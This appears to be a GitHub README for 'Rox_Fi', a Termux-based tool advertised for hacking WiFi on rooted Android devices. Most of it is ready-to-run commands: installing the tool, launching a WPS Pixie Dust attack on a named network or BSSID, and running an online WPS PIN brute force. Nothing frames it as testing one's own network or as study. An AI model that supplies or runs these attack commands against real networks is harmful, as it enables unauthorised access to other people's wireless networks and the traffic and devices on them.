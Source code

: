 ## Rox_Fi

### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://1.bp.blogspot.com/-9lzzogymHUQ/YS5hEDy_jyI/AAAAAAAAAoM/FuivT5DSF5sJbDBcWXrNtNbSF0Dnr5nHwCLcBGAsYHQ/s2340/Screenshot_2021-08-31-22-59-07-343_com.termux.jpg"></p>

### Installation :

```bash

$ apt update && apt upgrade

$ pkg install -y root-repo

$ pkg install -y git tsu python wpa-supplicant pixiewps iw

$ git clone https://github.com/piomrox/Rox

$ cd Rox

$ chmod +x roxfi.py

$ sudo python roxfi.py --help

```

#### Example : `sudo python roxfi.py -i wlan0 -K`

#### Note: 

**First turn off your Wifi.**

- Show avaliable networks and start Pixie Dust attack on a specified network.

- `sudo python roxfi.py -i wlan0 -K`

- - Start Pixie Dust attack on a specified BSSID:

`sudo python roxfi.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`

- Launch online WPS bruteforce with the specified first half of the PIN:

- `sudo python roxfi.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`

### Troubleshooting

**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**

